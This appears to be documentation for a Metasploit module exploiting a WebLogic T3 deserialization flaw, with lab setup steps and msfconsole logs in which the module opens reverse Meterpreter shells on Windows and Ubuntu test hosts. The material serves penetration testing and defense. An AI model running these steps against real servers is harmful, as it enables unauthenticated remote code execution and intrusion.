 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved by
  sending a serialized `BadAttributeValueExpException`
  object over the T3 protocol to vulnerable versions of
  WebLogic. Leveraging an `ExtractorComparator` enables
  the ability to trigger `method.invoke()`, which will
  execute arbitrary code.

  This module has been tested on WebLogic versions
  `v12.2.1.4.0`, `v12.2.1.3.0`, and `v12.1.3.0.0`.

### Installation

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).

  Some version of Java 8 JDK is required to be installed on the server.
  This module has been tested successfully using [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).

  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).

  On step 10 of the installation instructions, keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, then click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/misc/weblogic_deserialize_badattr_extcomp```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```run```
  6. You should get a shell.

## Scenarios
### WebLogic `v12.2.1.4.0` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattr_extcomp
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.181
  rhosts => 172.16.215.181
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.181:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.181:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.181:7001 - The target appears to be vulnerable.
  [*] 172.16.215.181:7001 - Sending handshake...
  [*] 172.16.215.181:7001 - Formatting payload...
  [*] 172.16.215.181:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.181
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.181:49724) at 2020-06-02 14:03:07 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.2.1.4.0` on Ubuntu 18.04

  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.180
  rhosts => 172.16.215.180
  msf5 exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.180:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.180:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.180:7001 - The target appears to be vulnerable.
  [*] 172.16.215.180:7001 - Sending handshake...
  [*] 172.16.215.180:7001 - Formatting payload...
  [*] 172.16.215.180:7001 - Sending object...
  [*] Sending stage (980808 bytes) to 172.16.215.180
  [*] Meterpreter session 2 opened (172.16.215.1:4444 -> 172.16.215.180:50522) at 2020-06-02 14:03:43 -0500
  [*] 172.16.215.180:7001 - Command Stager progress - 101.56% done (715/704 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.180
  OS           : Ubuntu 18.04 (Linux 5.3.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
